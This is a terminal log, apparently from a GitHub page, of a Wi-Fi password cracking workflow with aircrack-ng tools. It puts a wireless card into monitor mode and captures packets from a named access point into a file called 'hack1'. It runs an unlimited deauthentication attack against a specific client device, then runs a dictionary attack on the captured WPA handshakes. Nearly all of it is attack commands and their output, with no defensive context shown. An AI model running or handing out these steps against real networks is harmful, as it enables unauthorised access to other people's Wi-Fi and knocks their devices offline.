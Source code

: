 devender@2612:~$ `sudo airmon-ng start wlx00c0ca59ef6f 8`

Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    957 avahi-daemon
    961 NetworkManager
    982 wpa_supplicant
    983 avahi-daemon

PHY	Interface	Driver		Chipset

phy2	wlx00c0ca59ef6f	rt2800usb	Ralink Technology, Corp. RT2870/RT3070

		(mac80211 monitor mode already enabled for [phy2]wlx00c0ca59ef6f on [phy2]wlx00c0ca59ef6f)
devender@2612:~$ `sudo airmon-ng check kill`

Killing these processes:

    PID Name
    982 wpa_supplicant
 297530 avahi-daemon

devender@2612:~$ `sudo airmon-ng start wlx00c0ca59ef6f 8`


PHY	Interface	Driver		Chipset

phy2	wlx00c0ca59ef6f	rt2800usb	Ralink Technology, Corp. RT2870/RT3070
Interface wlx00c0ca59ef6fmon is too long for linux so it will be renamed to the old style (wlan#) name.

		(mac80211 monitor mode vif enabled on [phy2]wlan0mon
		(mac80211 station mode vif disabled for [phy2]wlx00c0ca59ef6f)

devender@2612:~$ `iwconfig`
lo        no wireless extensions.

eno1      no wireless extensions.

wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.447 GHz  Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off

devender@2612:~$ `sudo airodump-ng wlan0mon`

or

devender@2612:~$ `sudo airodump-ng -w hack1 -c 8 --bssid C8:3A:35:36:A4:F8 wlan0mon`


devender@2612:~$ `sudo aireplay-ng --deauth 0 -a C8:3A:35:36:A4:F8 -c 4C:EF:C0:B4:2A:1C wlan0mon`


`sudo aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap`




`cd ~/Downloads`
`wget http://archive.ubuntu.com/ubuntu/pool/universe/h/hcxtools/hcxtools_6.0.2-1_amd64.deb`
`sudo apt-get install ./hcxtools_6.0.2-1_amd64.deb`
